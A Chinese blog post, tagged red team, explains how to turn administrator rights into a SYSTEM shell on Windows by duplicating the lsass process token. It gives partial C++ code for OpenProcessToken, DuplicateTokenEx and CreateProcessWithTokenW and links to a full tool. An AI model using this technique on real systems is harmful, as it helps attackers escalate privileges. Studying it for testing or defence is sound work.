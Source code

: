 ```yaml
---
layout:     post
title:    技巧-获得一个system权限的cmd
subtitle:   通过token复制启动system权限cmd
date:       2020-03-16
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 技巧
    - 红队
    
    
---
```

# 技巧-获得一个system权限的cmd

## 简介
这里前提是已经获得了管理员权限。  
常用的方法是：  
- 创建服务
- token复制  

这里主要是想讲后者，且自己去实现这个过程。  


## 思路
先找到windows进程中以system权限启动的进程，这里以lsass为例子。  
首先需要获取到lsass的token，用到函数OpenProcessToken()。  
```
BOOL OpenProcessToken(
  HANDLE  ProcessHandle,
  DWORD   DesiredAccess,
  PHANDLE TokenHandle
);
```
主要是第二个参数，我们需要查询，访问，复制token，添加到别的进程，需要填入的参数是  
```
TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY | TOKEN_IMPERSONATE | TOKEN_DUPLICATE 
```  
具体的可以看官方文档。  
[https://docs.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocesstoken](https://docs.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocesstoken)  
[https://docs.microsoft.com/zh-tw/windows/win32/secauthz/access-rights-for-access-token-objects](https://docs.microsoft.com/zh-tw/windows/win32/secauthz/access-rights-for-access-token-objects)

然后通过DuplicateTokenEx函数复制创建一个新的主令牌。  
然后通过CreateProcessWithTokenW基于获得的token运行cmd。  
贴出部分代码：  
```
HANDLE GetProcessToken(DWORD Pid)
{
	HANDLE Pstoken = {};
	
	if (!OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, Pid)) {
		cout << "OpenProcess ERROR " << endl;
		return (HANDLE)NULL;
	}
	if (!OpenProcessToken(OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, Pid), TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &Pstoken)) {
		cout << "OpenProcessToken ERRO "<< endl;
		return (HANDLE)NULL;
	}
	return Pstoken;
}

void Run(HANDLE Token) {
	if (!DuplicateTokenEx(Token, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &Token)) {
		cout << "DuplicateTokenEx ERROR " << endl;
	}
	STARTUPINFOW si = {};
	PROCESS_INFORMATION pi = {};
	BOOL ret;
	ret = CreateProcessWithTokenW(Token, LOGON_NETCREDENTIALS_ONLY, L"C:\\Windows\\System32\\cmd.exe", NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
	if (!ret) {
		cout << "CreateProcessWithTokenW ERROR" << endl;
	}
}
```
具体代码放到github上。   
## 运行
编译出来运行，以管理员权限运行。  
![200316_1](/img/200316_cmd.png)  

## 拓展
具体的情景还可以修改启动的程序，修改复制的token，以不同的token去运行不同的程序，达到升降权的目的。  

## github
[https://github.com/hmoytx/ttttokencmd/](https://github.com/hmoytx/ttttokencmd/)  

## 参考
[https://422926799.github.io/posts/44f47c5e.html](https://422926799.github.io/posts/44f47c5e.html)  
[https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8EAdmin%E6%9D%83%E9%99%90%E5%88%87%E6%8D%A2%E5%88%B0System%E6%9D%83%E9%99%90/](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8EAdmin%E6%9D%83%E9%99%90%E5%88%87%E6%8D%A2%E5%88%B0System%E6%9D%83%E9%99%90/)  

